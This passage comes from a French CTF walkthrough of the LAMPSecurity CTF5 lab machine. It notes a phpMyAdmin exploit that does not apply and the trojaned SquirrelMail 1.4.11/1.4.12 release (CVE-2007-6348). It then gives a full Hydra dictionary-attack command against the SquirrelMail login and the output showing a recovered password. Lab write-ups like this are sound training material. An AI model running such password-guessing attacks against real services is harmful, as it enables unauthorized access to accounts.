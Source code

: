 ```console
   0   Automatic (phpMyAdmin 2.11.x < 2.11.9.5 and 3.x < 3.1.3.1)
```

Argh! Cet exploit n'est pas valable pour la version de phpMyAdmin installée sur le serveur LAMPSecurity CTF5... et les deux autres exploits listés non plus. Next!

### SquirrelMail - Attaque par dictionnaire

Le webmail SquirrelMail est également présent sur le serveur, dans sa version 1.4.11-1.fc8... et visiblement, [il y a eu du rififi](https://lists.fedoraproject.org/pipermail/test/2007-December/064683.html) ~~et Loulou~~ avec cette version. La [CVE-2007-6348](https://nvd.nist.gov/vuln/detail/CVE-2007-6348) décrit la vulnérabilité comme suit : « _SquirrelMail 1.4.11 and 1.4.12, as distributed on sourceforge.net before 20071213, has been externally modified to create a Trojan Horse that introduces a PHP remote file inclusion vulnerability, which allows remote attackers to execute arbitrary code_ ».

* [Re: SECURITY: 1.4.12 Package Compromise](https://lwn.net/Articles/262691/)
* [SquirrelMail 1.4.13 Released](http://jon.netdork.net/2007/12/14/squirrelmail-1413-released/)
* [SM-DEVEL SECURITY: 1.4.12 Package Compromise](https://marc.info/?l=squirrelmail-devel&m=119756462212214&w=2)
* [Re: SM-DEVEL SECURITY: 1.4.12 Package Compromise](https://marc.info/?l=squirrelmail-devel&m=119765235203392&w=2)
* [squirrelmail 1.4.11 and 1.4.12 are compromised](https://lists.fedoraproject.org/pipermail/test/2007-December/064683.html)
* [What's interesting to me about SquirrelMail attack](http://www.syntaxpolice.org/2007/12/)

De plus, les exploits répertoriés sur [_The Exploit Database_](https://www.exploit-db.com/search?q=SquirrelMail) ne manquent pas, mais la plupart d'entre eux nécessitent un accès authentifié et ne sont pas applicables pour la version 1.4.11. Cinq utilisateurs ont été trouvés grâce à la _Local File Inclusion_ du fichier ```index.php```, autant se focaliser sur eux et essayer de trouver leur mot de passe. Le wiki [SkullSecurity](https://wiki.skullsecurity.org/Passwords) propose un large panel de dictionnaires : le premier à être utilisé (au nom particulièrement évocateur) est ```500-worst-passwords.txt```.

```console
root@blinils:~# hydra -l amy -P /usr/share/dict/500-worst-passwords.txt 192.168.56.101 http-post-form 
"/mail/src/redirect.php:js_autodetect_results=1&just_logged_in=1&login_username=^USER^&secretkey=^PASS^:Unknown user" -t 10 -V

--snip--
[DATA] max 10 tasks per 1 server, overall 10 tasks, 500 login tries (l:1/p:500), ~50 tries per task
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "sandra" - 360 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "pookie" - 361 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "packers" - 362 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "einstein" - 363 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "dolphins" - 364 of 500 [child 2] (0/0)
[80][http-post-form] host: 192.168.56.101   login: amy   password: dolphins
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-01-02 03:04:05
``` 

